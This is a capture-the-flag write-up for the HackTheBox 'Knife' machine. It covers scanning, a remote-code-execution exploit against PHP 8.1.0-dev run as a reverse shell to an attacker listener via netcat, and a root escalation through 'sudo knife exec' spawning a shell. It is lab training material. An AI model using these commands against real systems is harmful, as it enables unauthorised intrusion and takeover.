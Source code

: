 # HackTheBox - Knife

## Introduction
This box was an easy box where you are needed to exploit popular vulnerability in `PHP 8.0.1-dev` version for the user flag whereas you are required to exploit the application named `knife` to access root privileges. With that being said, let's get started.

### 1. Enumeration
When i joined the box, i was given the ip address of box as `10.10.10.242`. As always, i started with my `nmap` scan
```
> nmap -sC -sV -A 10.10.10.242 -oN nmap_initial
```

![](images/2021-07-21-09-07-00.png)

but the scan didn't provide us with enough information. As we can see a http server was running on *port 80*, i went to check on the website and found out that the website contains a single page and not much information for us to proceed further

![](images/2021-07-21-09-09-05.png)

Looking at the developer tools, we can see the web server was using `PHP 8.1.0-dev`.

![](images/2021-07-21-09-12-39.png)

### 2. Payload
There has been a recent RCE exploit for this version of php. I have attached the exploit i used [here](payload/rev_shell.py). I quickly fired up my **netcat** listener 
```
> nc -vnlp 8888
```

Then i executed my payload 
```
> sudo python3 rev_shell.py http://10.10.10.242/ 10.10.14.8 8888
```
which responded us with a sweet reverse shell.

![](images/2021-07-21-09-19-35.png)

We can easily find the user flag in the home directory of user **james**.

### 3. Privileges escalation
As always, first thing first

![](images/2021-07-21-09-22-15.png)

we can see that there is a tool named `knife` that the user can use with escalated privileges without `sudo` password. Looking at a little bit of help section of the tool, we see that we can run any command with `--exec` flags set. So i crafted a payload
```
> sudo knife exec --exec "exec '/bin/sh -i'"
```

![](images/2021-07-21-09-25-21.png)

and we have a shell with root privileges. We can get the root flag from `/root` directory. 

### Conclusion
> This was a super easy box.